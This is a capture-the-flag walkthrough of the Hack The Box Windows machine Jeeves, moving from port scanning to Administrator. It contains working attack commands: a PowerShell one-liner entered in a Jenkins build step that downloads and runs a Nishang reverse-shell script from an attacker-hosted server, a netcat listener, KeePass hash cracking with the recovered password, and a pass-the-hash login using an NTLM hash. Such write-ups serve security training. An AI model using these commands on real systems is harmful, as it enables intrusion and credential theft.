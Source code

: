 ## Hack The Box - Jeeves (10.10.10.63)
Jeeves is a medium box from Hack The Box and it is a Windows machine. It presents a minor rabbit hole but with enough enumeration and familiarity with Windows Powershell, Netcat, and Hashcat attackers should have no issue obtaining their flags. 


### Enumeration
To begin with, we will start a Nmap scan on our target as part of our first enumeration steps. For this, I will opt to use <a href="https://github.com/21y4d/nmapAutomator">nmapAutomator</a>, although you can run a traditional Nmap scan. 

```markdown
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```


We have four open ports on our target machine. After no success with enumerating port 445 (SMB), I decided to open our target machine in a web browser to view what is hosted on port 80 (http://10.10.10.63:80). It appears our target is running ‘Ask Jeeves’ as a service and is running on ‘Microsoft-IIS/10.0’. I will run a <a href="https://tools.kali.org/web-applications/dirbuster">DirBuster</a> scan to enumerate further files and directories here but did not obtain anything useful. 


![jeeves](https://user-images.githubusercontent.com/85421181/121051454-17436980-c77f-11eb-8650-e492b0a48f6c.png)



Continuing with our enumeration, I decided to view what is hosted on port 50000 (http://10.10.10.63:50000). It appears our target is running Jetty on this port and it may be running on version 9.4.x according to our Nmap scan from earlier. 

![jetty](https://user-images.githubusercontent.com/85421181/121051549-288c7600-c77f-11eb-8db4-3394bb1d663b.png)

As I run another DirBuster scan on our target machine and port 50000 I decide to research possible exploits available for Jetty 9.4.x and later. After attempting several exploits from GitHub, <a href="https://www.exploit-db.com/exploits/36318">ExploitDB</a>, and <a href="https://www.rapid7.com/db/vulnerabilities/http-jetty-command-execution/">Metasploit</a> I decided that there must be another method to obtain our initial foothold. My DirBuster scan from earlier has finished and has revealed a new directory (/askjeeves). 

![dirb](https://user-images.githubusercontent.com/85421181/121051588-2e825700-c77f-11eb-9ef5-439a7feee42a.png)

It appears our target is hosting an application called Jenkins, software for developers to automatically build, test, and deploy their software. 

![jenkins](https://user-images.githubusercontent.com/85421181/121051616-33470b00-c77f-11eb-9446-4c541faf6114.png)

After poking around the application it appears that we can build and deploy new projects without any restriction. We will go to ‘New Item > Freestyle project’ and name our project whatever we choose. On the next page, we are given several options and the most interesting is the ‘Build’ sections where we can select ‘Execute Windows batch command’ as an option. Interesting! Let us craft a payload using a Powershell one-liner and <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1">Nishang's Invoke-PowerShellTcp.ps1</a> script. 

### Initial Foothold
We will append the following line to the very end of our Invoke-PowerShellTcp.ps1 script to enable the callback to our attacker machine once executed on our target machine. Please ensure to change ‘10.10.10.10.’ to your IP Address and ‘4444’ to the port which you will be listening on for your reverse shell (Netcat will be utilized for this step and will be explained later). 

```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 
```
Great, our script is ready to go! Let's host it on our attacker machine utilizing either <a href="https://docs.python.org/2.7/library/simplehttpserver.html?highlight=simplehttpserver#module-SimpleHTTPServer">SimpleHTTPServer</a> or <a href="https://docs.python.org/3/library/http.server.html">http.server</a> (either will work). 

```markdown
python -m SimpleHTTPServer 8080
or
python3 -m http.server 8080
``` 
Our attacker machine is now hosting 'Invoke-PowerShellTcp.ps1' on our IP address on port 8080. Once downloaded and executed by our target it will send a reverse shell to our attacker machine. We will catch this reverse shell utilizing <a href="https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf">Netcat</a>. To do this, execute the below command and ensure that the port listed in this command is the same declared at the bottom of our Invoke-PowerShellTcp.ps1 script from earlier.

```markdown
nc -lvnp 4444
```
Time to get our initial foothold. Powershell's IEX is a powerful resource to have in your toolkit so if this is your first time using it, make sure to commit the following to memory because there will be plenty of opportunities to use it again. We will be executing the following Powershell one-liner code in the ‘Execute Windows batch command’ box of our Jenkins application. Before doing so, ensure that 10.10.10.10 is replaced with your attacker machine's IP address. 

```markdown
powershell IEX (New-Object Net.WebClient).downloadString('http://10.10.10.10:8080/Invoke-PowerShellTcp.ps1');
```
![build](https://user-images.githubusercontent.com/85421181/121052031-96d13880-c77f-11eb-8fa3-6c440ed7b0c0.png)

Click ‘Save’ and ‘Build Now’ to see your file get pulled from your attacker machine and executed on the target machine to provide you with your reverse shell caught by Netcat. Congratulations, we have our initial foothold and appear to be a user name ‘kohsuke’. Let us continue with our privilege escalation. 

![foothold](https://user-images.githubusercontent.com/85421181/121052041-9afd5600-c77f-11eb-859e-3a810084317d.png)

### Privledge Escalation
After searching around our target's machine I notice there is a file called ‘CEH.kdbx’ located in ‘C:\Users\kohsuke\Documents’. This file extension is indicative of a KeePass file which we will be using keepass2john and Hashcat to crack and obtain the cleartext password. So first, download the file to your local attacker machine. 

![CEH](https://user-images.githubusercontent.com/85421181/121052053-9df84680-c77f-11eb-9988-cd6287d6bf24.png)

On your attacker machine run the following command to turn your .kdbx file into a hash we can feed into Hashcat for a cleartext password.

```markdown
keepass2john CEH.kdbx > CEH.hash
```
![hash](https://user-images.githubusercontent.com/85421181/121052080-a3559100-c77f-11eb-8041-7d05a4ef1eb0.png)

We will now feed this hash file (CEH.hash) into a tool called Hashcat which will provide us with the cleartext password. For this password crack, I will be utilizing rockyou.txt as a password file but I encourage everyone to checkout SecLists for more resources. 

```markdown
hashcat -m 13400 CEH.hash rockyou.txt
```
OUTPUT:
![hashcat](https://user-images.githubusercontent.com/85421181/121052096-a6e91800-c77f-11eb-8995-1231c2e705ed.png)

With our password being ‘moonshine1’ we can now view the contents of the KeePass file!

![keepass](https://user-images.githubusercontent.com/85421181/121052107-a9e40880-c77f-11eb-8dba-d05c060f6ed8.png)


Viewing all the entries it seems like ‘Backup stuff’ contains an NTLM hash in the password field. 

```markdown
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We can use a pass-the-hash attack to gain access to our target's machine as Administrator. We will use <a href="https://www.kali.org/blog/passing-hash-remote-desktop/">pth-winexe</a> for this attack.

```markdown
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```
![pth-winexe](https://user-images.githubusercontent.com/85421181/121052128-b0728000-c77f-11eb-8073-f2db91708325.png)

### Closing Remarks
  We are now Administrator! Before ending this, it is worth noting that you may not be able to obtain your root flag as easily as the user flag. This is because there is a file stream via the ‘hm.txt’ file located in C:\Users\Administrator\Desktop' and it can only be seen by appending /r to your ‘dir’ command. 

![dir](https://user-images.githubusercontent.com/85421181/121052143-b4060700-c77f-11eb-8d07-69e297f563bb.png)

Utilize the following command to obtain your root flag.

```markdown
powershell Get-Content -path C:\Users\Administrator\Desktop\hm.txt -stream root.txt
```
Thanks for reading! 

